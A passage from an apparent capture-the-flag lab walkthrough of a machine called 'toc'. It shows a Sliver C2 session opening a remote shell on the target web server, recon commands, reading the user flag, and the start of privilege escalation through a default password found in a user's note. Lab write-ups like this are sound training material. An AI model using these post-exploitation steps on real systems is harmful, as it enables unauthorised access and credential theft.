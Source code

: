 **Let's start an interactive shell!**
```
sliver (PLAIN_BANKER) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 22962

www-data@toc:/var/www/html/cmsms$ whoami;hostname;id;ip a
www-data
toc
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ce:63:e0:0d:67 brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.228/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2304sec preferred_lft 2304sec
    inet6 fe80::ce:63ff:fee0:d67/64 scope link 
       valid_lft forever preferred_lft forever
www-data@toc:/var/www/html/cmsms$ ^C
www-data@toc:/var/www/html/cmsms$ 
```

**user.txt:**
```
www-data@toc:/var/www/html/cmsms$ cat /home/frank/user.txt 
thm{Redacted}
```

## Privilege Escalation

### www-data to frank

**In user `frank` home directory, we can see an interesting file and a directory:**
```
www-data@toc:/var/www/html/cmsms$ ls -lah /home/frank
[...]
-rw-r--r-- 1 frank frank  331 Aug 17  2020 new_machine.txt
drwxr-xr-x 2 frank frank 4.0K Jan 31  2021 root_access
```

**`new_machine.txt`:**
```
www-data@toc:/var/www/html/cmsms$ cat /home/frank/new_machine.txt 
I'm gonna be switching computer after I get this web server setup done. The inventory team sent me a new Thinkpad, the password is "password". It's funny that the default password for all the work machines is something so simple...Hell I should probably change this one from it, ah well. I'm switching machines soon- it can wait.
```
